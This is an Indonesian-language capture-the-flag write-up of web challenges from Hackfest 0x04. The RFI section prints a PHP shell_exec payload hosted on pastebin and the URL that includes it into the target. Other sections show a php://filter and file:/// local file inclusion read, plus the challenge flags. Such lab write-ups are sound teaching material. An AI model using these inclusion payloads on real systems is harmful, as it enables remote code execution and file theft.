Hackfest merupakan acara yang diselenggarakan oleh Cyber Community Unversitas Gunadarma (CCUG) untuk merekrut anggota baru untuk masuk ke tim mereka. Kebetulan saya mengikuti Hackfest 0x04. Berikut ini adalah writeup saya dalam menjawab soal-soal CTF Hackfest 0x04. Akan tetapi tidak semua writeup saya tulis, hanya kategori Web Hacking saja 😸

## Bayi IE
```
Ezz Parah Gak Usah Nanya (1)
http://ccug.my.id:22121/
Author: Ikhari
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:



Setelah itu, saya mencoba melihat page source dengan cara menekan CTRL + U. Didapatkan 1/3 dari flag seperti ini:



Karena itu masih 1/3 bagian alias belum penuh, maka saya memutuskan untuk mencari lagi. Saya mencoba melihat file-file yang dimasukkan ke sini, yaitu semua css dan js. Lalu saya menemukan flag ke 2/3 di dalam file vegas.min.js



Saya juga menemukan flag ke 3/3 di dalam file templatemo-file.css



Sehingga, flagnya dapat digabungkan dan dihasilkan:

`hackfest{IE_AdAlaH_Hal_PaLiNg_pEnTing_DAlaM_menCARI_iNfo}`

## Where Are You Now?
```
Hehehe boi
http://ccug.my.id:20000/
Author: aldo
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:



Saya membuka menu Flag, didapatkan tampilan seperti ini:



Lalu, saya melihat URLnya, didapatkan URL seperti ini:

http://ccug.my.id:20000/index.php?page=flag.php

Saya berasumsi bahwa terdapat celah di bagian "page=", yang mana bagian method get tersebut akan memasukkan file php sesuai dengan nama yang dimasukkan di URL. Sehingga, saya mencoba memasukkan PHP Wrapper menjadi seperti ini:

http://ccug.my.id:20000/index.php?page=php://filter/convert.base64-encode/resource=flag.php

Didapatkan hasil seperti ini:



Karena masih menggunakan base64, akhirnya saya membuat script Python sederhana untuk menerjemahkan base64 tersebut:



Jalankan scriptnya dan dapat deh flagnya:



`hackfest{tau_kan_harus_diapain_nih_flag?_ya_disubmit_lah:)}`

## eRFI Minta Tolong
```
Flag jauh dari apa yang kamu liat:*
http://ccug.my.id:20001/
Author: aldo
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:



Saya mencoba cara yang sama seperti soal "Where Are You Now?", dan didapatkan hasil seperti ini:



Karena bukan itu flagnya, maka saya mencoba cara lain, yaitu dengan cara eksekusi shell. Kenapa eksekusi shell? Karena di soalnya judulnya 'RFI' atau _Remote File Inclusion_, singkatnya RFI ini bisa membuat penyerang mengakses server korbannya. Saya membuat script php sederhana untuk eksekusi shell, menggunakan pastebin:
```
<pre>

<?php

echo shell_exec("ls /");

?>

</pre>
```

Setelah itu link raw dari pastebin saya masukkan sebagai parameter pada method "page="

http://ccug.my.id:20001/index.php?page=https://pastebin.com/raw/sju0u1WZ

Didapatkan tampilan seperti ini, di mana ini adalah list direktori dari root "/":



Di sana terdapat file flagnya, sekarang tinggal dibaca menggunakan file wrapper yang dimasukkan sebagai parameter juga.

http://ccug.my.id:20001/index.php?page=file:///1Ni_fL4g_eUy.txt

Didapatkan flagnya:

`hackfest{widihhh_mantep_euy_tau_aja_ada_disini}`

## Bayi Kepala
```
Ezz Parah Gak Usah Nanya (2)
http://ccug.my.id:22122/
Author: Ikhari
```
Saya mencoba mengakses url di soal menggunakan API Client Insomnia, lalu memeriksa bagian headersnya. Dan ditemukan flagnya.



`hackfest{YOU_EXPECTED_FLAG_!_BUT_IT_WAS_ME_DIO_!!!}`

## Bayi Robot
```
Ezz Parah Gak Usah Nanya (3)
http://ccug.my.id:22123/
Author: Ikhari
```
Saya mencoba mengakses url di soal lalu membuka robots.txt, dan didapatkan hasil seperti ini:



Setelah itu, saya membuka satu-satu filenya. Dan pada file NoRobotHere.txt saya mendapatkan kode base64:



Lalu encode base64 tersebut dan didapatkan flagnya:

`hackfest{FlaG_HAck_FeSt_0xo4}`

Sekian writeup dari saya, semoga bisa menambah ilmu teman-teman semua 😁
